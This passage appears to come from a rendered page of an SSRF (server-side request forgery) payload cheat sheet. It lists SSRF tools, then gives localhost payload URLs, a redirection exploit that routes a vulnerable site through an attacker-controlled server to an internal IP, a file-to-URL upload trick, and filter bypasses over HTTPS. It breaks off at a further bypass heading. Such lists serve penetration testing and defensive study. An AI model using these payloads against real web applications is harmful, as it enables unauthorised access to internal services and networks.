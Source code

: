 ## Tools

- [SSRFmap - https://github.com/swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)
- [Gopherus - https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [See-SURF - https://github.com/In3tinct/See-SURF](https://github.com/In3tinct/See-SURF)
- [SSRF Sheriff - https://github.com/teknogeek/ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)

## Payloads with localhost

Basic SSRF v1

```powershell
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

Basic SSRF - Alternative version

```powershell
http://localhost:80
http://localhost:443
http://localhost:22
```

Advanced exploit using a redirection

```powershell
1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

Advanced exploit using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

## Bypassing filters

### Bypass using HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Bypass localhost with [::]
